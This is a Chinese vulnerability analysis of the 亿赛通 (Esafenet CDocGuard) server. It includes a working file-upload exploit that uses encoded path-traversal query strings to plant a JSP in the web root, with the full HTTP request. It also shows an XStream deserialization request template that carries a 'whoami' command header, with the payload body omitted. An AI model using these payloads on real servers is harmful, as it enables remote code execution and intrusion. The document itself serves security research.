 
亿赛通漏洞浅析

- - -

# 亿赛通漏洞浅析

## 文件上传

某次拿到亿赛通安装包进行安装后，在web.xml文件中搜索upload相关的servlet  
[![](assets/1698914716-a7a426594d8ef6235c616c54a5ea63b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195125-fc28d9e6-78ac-1.png)  
发现其中UploadFileFromClientServiceForClient存在文件上传漏洞，跟进源代码进行分析  
很明显存在文件写入操作  
[![](assets/1698914716-2975701fbe98eb2f025c312c384079f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195428-69671bee-78ad-1.png)  
关注文件名是否可控，是否对文件后缀有限制  
向上查看代码，发现fileName的获取步骤是：遍历var12数组，当其以fileName开头时，取其=号后面的值，相当于构造如下：fileName=1.jsp，即可使得fileName为1.jsp  
[![](assets/1698914716-04a935edb669a624ee9f65f15644a6b4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101195921-17feea7e-78ae-1.png)  
接着向上查看代码，可知var12这个数组由value\_decode字符串对&字符进行切片得到  
[![](assets/1698914716-eb7a8f6ca0f04886b9e5fc49f8f5df6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200658-2864aab0-78af-1.png)  
而value\_decode对&字符进行切片前，经过了CDGUtil.decode与substring  
req.getQueryString()就是获取查询字符串，例如：客户端发送?a=b&c=d&e=f，通过request.getQueryString()得到的就是a=b&c=d&e=f  
[![](assets/1698914716-7b293e8b9efe62f5e01af31cd2e7cc84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101200737-3fbd6c88-78af-1.png)  
从上述分析可以得知，并没有对fileName有什么过滤操作，fileName的值从value\_decode取得，构造payload：  
?a=ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE，ODJNOLIDLOLPEJHCOIFJJDIJOLLFJLDE为fileName=1.jsp&1经过CDGUtil.encode加密  
[![](assets/1698914716-bab64733f279e39a110365a32077e2d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202428-99f546ce-78b1-1.png)  
发送后，发现其文件不是写在web目录下，而是在C:\\fileDB\\uploaded\\store目录  
[![](assets/1698914716-a1d8dcf45af0198e22120f5d828a263f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202217-4bca5e1c-78b1-1.png)  
因为安装包安装的路径都是一样的，所以我们可以通过目录穿越将其上传到web目录下：../../../Program Files (x86)/ESAFENET/CDocGuard Server/tomcat64/webapps/ROOT/1.jsp  
利用如下payload：?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM  
[![](assets/1698914716-ea231e91e7595845ee8b21789e067445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202721-00fc584e-78b2-1.png)  
[![](assets/1698914716-6aa03a5ef0a47f5b893689c6e6b71496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101202730-064eac66-78b2-1.png)

```plain
POST /CDGServer3/UploadFileFromClientServiceForClient?a=AFMALANMJCEOENIBDJMKFHBANGEPKHNOFJBMIFJPFNKFOKHJNMLCOIDDJGNEIPOLOKGAFAFJHDEJPHEPLFJHDGPBNELNFIICGFNGEOEFBKCDDCGJEPIKFHJFAOOHJEPNNCLFHDAFDNCGBAEELJFFHABJPDPIEEMIBOECDMDLEPBJCGBIFBGJGJBMCM HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
Content-Length: 26

<%out.println("123213");%>
```

## xstream反序列化

亿赛通中使用到了xstream组件，而xstream 1.4.9是存在反序列化漏洞的  
[![](assets/1698914716-4556cc3ece6e8cddc190f32fb0ad0c22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203127-93ca3510-78b2-1.png)  
GetValidateLoginUserService中调用了xstream组件，fromXML会反序列化xml格式内容，并且这里未对输入做校验  
[![](assets/1698914716-6826376935384f87b4c0150b7dbe11b7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203536-28531a9e-78b3-1.png)  
这里传入的xml内容也是会做解密处理的，所以我们传入的内容也要先用CDGUtil.encode进行加密  
[![](assets/1698914716-b875819f19c65b1e8ad46961206ab1bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203617-4074f6a6-78b3-1.png)  
[![](assets/1698914716-463cb7bfb6ce3fdecb0bd9bdf3220636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101203650-5491e6da-78b3-1.png)  
[![](assets/1698914716-0929d98784725aa8692d086f6c7effa5.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231102144737-b5b5f7e2-794b-1.jpg)

```plain
POST /CDGServer3/xxxxxxxxxxxx HTTP/1.1
Host: 192.168.37.130:8443
Connection: close
ttt: whoami
Content-Length: 29724

poc
```
